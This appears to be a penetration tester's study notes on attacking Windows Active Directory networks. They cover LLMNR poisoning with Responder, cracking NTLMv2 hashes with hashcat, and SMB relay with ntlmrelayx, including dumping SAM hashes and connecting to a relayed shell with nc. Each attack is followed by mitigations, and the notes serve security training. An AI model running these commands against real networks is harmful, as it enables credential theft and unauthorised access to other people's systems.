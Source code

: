 ```yaml
---
title: 3 - Windows Exploitation
summary: Gaining Access step – a note for attacking Windows.
description: Gaining Access step – a note for attacking Windows.
---
```


# Resources

---

* [Pentesting Active Directory Mind Map - ODC](https://github.com/esidate/pentesting-active-directory/tree/main)
* [Top Five Ways I Got Domain Admin 2018 Edition - Adam Toscher](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# Initial Access

---

### 1 - LLMNR Attack

### Principle

![exploit-llmnr-principle.png](../attachments/exploit-llmnr-principle.png)
Credit: TCM Security

### Hands On


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)

**<font color=red>hashcat -m 5600 </font>myHashes.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
Crack NetNTMLv2 hashes.

### Mitigation

* Disable LLMNR and NBT-NS
  * Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Multicast Name Resolution > OFF
  * Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > NetBIOS over TCP/IP > Disable
* If this cannot be disabled
  * Network Access Control.
  * Enforce strong user password (over 14 characters) in order to make it harder to crack hashes.

Credit: TCM Security

---

### 2 - SBM Relay Attack

### Principle

Relay captured Hashes without cracking them to a SMB Server.

### Requirements & Limitations

* SMB Signing must be disabled on the target.
* The user that is relayed has to be admin on the target.
* It is not possible to relay a user to the same machine.

### Scan for vulnerable hosts (SMB Signing disabled)

**<font color=red>nmap --script=smb2-security-mode.nse -p445</font> \[TARGET_IP\]**</br>
Scan for disabled SMB Signing.

![tool-nmap-smb_signing.png](../attachments/tool-nmap-smb_signing.png)

### Hands on

#### Capture Hashes

Update Responder configuration to capture hashes but not respond.

 > 
 > **<font color=lightblue>/usr/share/responder/Responder.conf</font>**</br>

````
[Responder Core]

; Servers to start
SQL = On
#SMB = On # HERE #
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
````


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)

#### Relay Attacks


 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf </font>myTargets.txt <font color=red>-smb2support --no-multirelay</font>**</br>
 > Relay NTLM Hash and Dump Sam Hashes.

![tool-ntlmrelayx-smb_relay_dump_sam.png.png](../attachments/tool-ntlmrelayx-smb_relay_dump_sam.png.png)

**TO CHECK**

 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf</font> myTargets.txt <font color=red>-smb2support --no-multirelay -i</font>**</br>
 > Relay NTLM Hash and start a Bind Shell.

![tool-ntmlrelayx-smb_relay_reverse_shell.png](../attachments/tool-ntmlrelayx-smb_relay_reverse_shell.png)

 > 
 > **<font color=red>nc 127.0.0.1 11000</font>**
 > Connect to the shell.

### Mitigation

* Enable SMB Signing on all devices
  * Warning: May cause performance issues with file copies
* Disable NTML authentication on network
  * Warning: NTML is the backup solution when Kerberos don't work, NTML may be required by some applications.
* Limit high privilege accounts to specific tasks (e.g. Domain Admins only log when a Domain Admin access is required).
* Enforce Local admins restriction.

Credit: TCM Security
